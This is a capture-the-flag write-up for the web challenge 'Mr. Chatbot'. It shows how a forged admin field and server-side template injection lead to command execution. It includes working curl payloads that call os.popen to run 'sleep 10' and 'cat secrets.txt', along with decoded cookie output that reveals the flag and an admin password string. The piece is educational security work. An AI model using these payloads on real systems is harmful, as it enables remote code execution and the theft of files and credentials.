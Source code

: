 ```yaml
---
title: "Mr. Chatbot"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: CIT{18a7fbedb4f3548f}
---
```

> "What's your prompt?"
>
> The flag is in secrets.txt
>
> Note: this web challenge instance will reset every 30 minutes. If a challenge is not responsive, you might need to wait until the next half hour.
>
> http://23.179.17.40:58005/

---

Upon accessing the page, we are asked to enter a name to join the chat.

![alt text](image.png)

After submitting a name, we are redirected to a `home` page. A quick look at the JavaScript `home.html` shows:

![alt text](image-1.png)

The `userName` variable is directly inserted into the page, suggesting a possible **SSTI** (Server-Side Template Injection).
However, testing common **SSTI** payloads failed because characters like `{}`, `<`, and `>` were filtered.

After some testing, I checked the cookies and try to decode them. The cookie `session` contained a `Base64` string:

```
eyJhZG1pbiI6IjAiLCJuYW1lIjoienR6In0.aA7zxg.zAnEcRAO3VHXg3UMqxY7BigC5jE
```

Decoding the first part (`Base64`) reveals:

```json
{"admin":"0","name":"ztz"}
```

Because when joining the chat, we will request to http://23.179.17.40:58005/ `POST` request with the `name` parameter. This suggested that the server stores the `name` and `admin` parameters in the cookie. Since the `POST` request accepts a `name`, I attempted to submit additional parameters.

**The idea**: forcefully set `admin=1` and inject a server-side payload.

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('sleep 10').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The server delayed its response by 10 seconds, confirming server-side code execution!

At this point, I attempted to directly read `secrets.txt`:

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The request succeeded, but the problem was:
Where can we see the output of `cat secrets.txt`?
When using the cookie, nothing visible appeared in the home chat.

After some experiments (including trying a reverse shell), I noticed that the cookie size changed depending on the command output.
This hinted that the command results were being hidden inside the cookie.

I decoded the cookie using CyberChef (**Base64** Decode (`A-Za-z0-9-_`) -> Zlib Inflate) and found an interesting field named uid, containing **another base64-encoded string**.

Example of the response after inflating:

```json
{"admin":"1","name":" self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ","uid":"YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7"}
```

Decoding the `uid` field gives:

```
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```
